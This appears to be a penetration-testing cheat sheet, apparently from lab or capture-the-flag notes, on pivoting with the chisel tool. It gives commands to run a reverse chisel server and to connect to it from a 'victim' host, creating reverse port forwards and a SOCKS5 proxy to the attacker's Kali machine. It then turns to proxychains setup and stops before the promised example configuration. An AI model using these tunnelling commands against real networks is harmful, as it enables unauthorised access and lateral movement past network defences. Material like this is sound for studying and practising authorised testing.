

# chisel
`#on your system, start the chisel server`

```text-plain
chisel server --reverse -p 3000
```

`# connect to the chisel server`  
`chisel client <your-IP>:<port> R:3275:localhost:3275`

```text-plain
./chisel client 10.17.17.11:3000 R:8000:localhost:8000
./chisel client 10.10.14.82:3000 R:5000:localhost:3000
```

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim:

| Command | Notes |
| --- | --- |
| `chisel client 10.10.14.3:8000 R:80:127.0.0.1:80` | Listen on Kali 80, forward to localhost port 80 on client |
| `chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80` | Listen on Kali 4444, forward to 10.10.10.240 port 80 |
| `chisel client 10.10.14.3:8000 R:socks` | Create SOCKS5 listener on 1080 on Kali, proxy through client |

Now that we have a SOCKs server set up, we need to interpret and manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the proxy in the command line. To add the SOCKs server to proxychains, you will need to edit `/etc/proxychains.conf`. You can see an example configuration below.

